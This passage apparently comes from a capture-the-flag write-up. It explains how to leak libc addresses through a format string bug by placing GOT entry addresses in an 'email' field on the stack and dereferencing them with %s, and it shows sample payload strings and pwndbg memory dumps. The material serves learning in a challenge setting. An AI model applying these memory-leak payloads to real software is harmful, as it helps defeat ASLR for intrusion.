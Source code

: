 ### Leak libc address
To get the correct libc version as the remote, we need to leak the runtime addresses and thus the offset of common libc functions which are recorded on online databases that could show the corresponding libc version of those function offsets.  
For example, we can always get the correct libc version by leaking `printf`, `puts` and `read`.

To leak them in the context of the challenge, we use format string. But, how?  
Remember that `email` is right next to the heap entry address of `reasonBuf` on the stack, we can make use of `email` to store the GOT entry addresses of the libc functions, then we use `%s` to dereference and print the content out.   

There is the traditional method of doing something like 
```c
printf("%9$sAAAA\x30\xdd\xff\xff\xff\x7f\x00\x00");
```
after figuring output through the pack `%p` that `AAAA` is at the 8th position.   

This method stores the next 8 bytes i.e. `\x30\xdd\xff\xff\xff\x7f\x00\x00` to the next position of `AAAA`, which is on stack. The reason why this is not going to work is because `reasonBuf` is on heap, which the address that we put into the next position, would also be stored in heap. For example,  
```
pwndbg> x/32gx 0x55a9d9a0e2a0
0x55a9d9a0e2a0: 0x4141732541414141      0x000055a9c599ff90
0x55a9d9a0e2b0: 0x0000000a20700000      0x0000000000000000
0x55a9d9a0e2c0: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e2d0: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e2e0: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e2f0: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e300: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e310: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e320: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e330: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e340: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e350: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e360: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e370: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e380: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e390: 0x0000000000000000      0x0000000000000000
pwndbg> x/gx 0x000055a9c599ff90
0x55a9c599ff90 <puts@got.plt>:  0x00007f162e693760
```
Above was my example of doing something like 
```c
printf("%9$sAAAA" + p64(elf.got(puts)));
```
But in this case, the GOT entry address get puts on the next position of `AAAA` on the heap:
`0x55a9d9a0e2a0: 0x4141732541414141      0x000055a9c599ff90`   
And I could not find any ways to dereference it and get the actual runtime libc address
```
pwndbg> x/gx 0x000055a9c599ff90
0x55a9c599ff90 <puts@got.plt>:  0x00007f162e693760
```

Therefore, the correct way, at least I believe, one of the correct way to leak libc address is to put the GOT entry addresses e.g. `0x000055a9c599ff90` on the stack using `email`, which would be right next to the heap address of `reasonBuf` at the 7th position.   
Even if it is not right next to it, as long as we know the offset from the heap address to where our GOT entry addresses are stored on the stack, we are able to to get the value we want by derefernecing it with `%s`.    
